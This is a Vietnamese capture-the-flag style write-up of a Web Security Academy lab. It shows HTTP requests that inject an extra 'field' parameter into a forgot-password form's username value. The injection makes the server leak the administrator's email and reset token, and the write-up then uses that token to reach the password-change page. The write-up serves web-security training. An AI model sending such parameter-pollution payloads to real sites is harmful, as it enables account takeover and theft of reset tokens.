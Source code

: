 ```http
POST /forgot-password HTTP/2
Host: 0a35006d0421b29980007b04008e0092.web-security-academy.net
...
csrf=ArTFQBrfM4JEnexXpScOuEWnt7fE9gzs&username=administrator%26field=email%23
```
- Kết quả thực sự như vậy

#### Exploit
- Thử gửi **request** với **field** yêu cầu là `username` => trả về username 

```http
POST /forgot-password HTTP/2
Host: 0a35006d0421b29980007b04008e0092.web-security-academy.net
...
csrf=ArTFQBrfM4JEnexXpScOuEWnt7fE9gzs&username=administrator%26field=email%23
```

```json
{"type":"username","result":"administrator"}
```

- Quan sát các **request** trước đó ta thấy có **request** đến `/static/js/forgotPassword.js` có chứa dữ liệu cần thiết

```js
if (resetToken)
  {
      window.location.href = `/forgot-password?reset_token=${resetToken}`;
  }
```
- Có **param** `reset_token`, thử với request trên để nó có trả về giống **username** và **email** của `administrator` không

```http
POST /forgot-password HTTP/2
Host: 0a35006d0421b29980007b04008e0092.web-security-academy.net
...
csrf=ArTFQBrfM4JEnexXpScOuEWnt7fE9gzs&username=administrator%26field=reset_token%23
```

```json
{"type":"reset_token","result":"rcrs5af6zwynto5inf89bq1mz3glntq9"}
```
- Truy cập đường dẫn để thay đổi **password**

```
https://0a35006d0421b29980007b04008e0092.web-security-academy.net/forgot-password?reset_token=rcrs5af6zwynto5inf89bq1mz3glntq9
```

### Lab: Exploiting server-side parameter pollution in a REST URL
#### Analysis
- Sử dụng chức năng **change password** với **user** `administrator`
- Gửi **request** đến **Repeater**

